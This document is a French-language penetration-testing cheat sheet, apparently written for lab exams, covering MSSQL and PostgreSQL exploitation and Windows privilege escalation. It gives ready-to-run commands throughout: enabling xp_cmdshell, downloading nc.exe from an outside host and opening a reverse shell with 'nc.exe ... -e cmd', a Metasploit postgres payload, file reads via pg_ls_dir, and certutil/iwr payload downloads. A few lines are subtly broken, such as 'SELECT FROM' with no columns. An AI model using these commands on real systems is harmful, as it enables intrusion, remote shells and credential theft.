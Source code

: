 ```bash
nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip
impacket-mssqlclient noman:'Noman@321@1!'@192.168.10.10
impacket-mssqlclient Administrator: 'Noman@321@1!'@192.168.10.10 -windows-auth
SELECT @@version; | SELECT name FROM sys.databases; | SELECT FROM offsec.information_schema.tables; | select from offsec.dbo.users;
```

#### Connecter en tant que CMD database
```sql
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
EXEC xp_cmdshell 'whoami';
exec xp_cmdshell 'cmd /c powershell -c "curl 192.168.10.10/nc.exe -o \windows\temp\nc.exe"';
exec xp_cmdshell 'cmd /c dir \windows\temp';
exec xp_cmdshell 'cmd /c "\windows\temp\nc.exe 192.168.10.10 443 -e cmd"';
# également appliqué sur la connexion SQL Injection
```

### PORT 5437 & PORT 5432 PostgreSQL
Si vous trouvez ce port, suivez les commandes ci-dessous, et vous pouvez également facilement trouver des identifiants à partir d'un autre port.
```bash
5437/tcp open postgresql PostgreSQL DB 11.3 - 11.7
msf6 exploit(linux/postgres/postgres_payload) > options et définir toutes les valeurs rhost lhost port LHOST tun0
OU | psql -U postgres -p 5437 -h IP | select pg_ls_dir('./'); | select pg_ls_dir('/etc/password'); | select pg_ls_dir('/home/wilson'); | select pg_ls_dir('/home/Wilson/local.txt');
```

## 2. Élévation de Privilèges Windows
J'ai utilisé cette approche :

- Exécutez whoami /all (si activé, utilisez printspoofer ou got potato).
- Exécutez simplement PowerUp, puis trouvez des privilèges sur DLL non cité, etc.
- Téléchargez WinPEAS pour une énumération plus approfondie si ce qui précède ne fonctionne pas. WinPEAS trouve principalement des mots de passe en clair.
- Enfin, trouvez n'importe quel exécutable (exe), script PowerShell (ps1) ou fichier PDF en cours d'exécution. Exécutez-le pour une énumération plus approfondie et recherchez sur Google pour plus de détails.

### Upload
```bash
certutil.exe -urlcache -split -f http://192.168.10.10/PowerUp.ps1 # (exécuter uniquement sur cmd)
iwr -uri http://192.168.10.10/PowerUp.ps1 -Outfile PowerUp.ps1 # (power shell)
curl 192.168.10.10/PowerUp.ps1 -Outfile PowerUp.ps1 # (les deux)
# Démarrer le serveur http avec python3 -m http.server 80 ou 81 etc
```

### Mot de passe en clair
- Noms de dossiers : Dossier C | Dossier Document
- Pour trouver un mot de passe
  - exécuter winpeas
  - vérifier l'historique avec la commande
  - vérifier les fichiers exe dans C ou le bureau, etc.
  - \users\noman\documents\fileMonitorBackup.log
